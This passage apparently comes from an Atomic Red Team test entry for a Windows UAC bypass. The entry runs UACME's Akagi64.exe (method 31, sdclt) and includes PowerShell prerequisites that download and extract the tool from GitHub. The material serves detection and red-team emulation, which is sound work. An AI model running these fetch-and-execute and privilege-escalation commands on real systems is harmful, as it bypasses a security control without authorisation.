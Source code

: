 Component: Attacker defined

Implementation:	ucmSdcltIsolatedCommandMethod

UCM Method:	UacMethodShellSdclt

https://github.com/hfiref0x/UACME

**Supported Platforms:** Windows


**auto_generated_guid:** b0f76240-9f33-4d34-90e8-3a7d501beb15





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;31 Akagi64.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:
```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")
##### Check Prereq Commands:
```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```


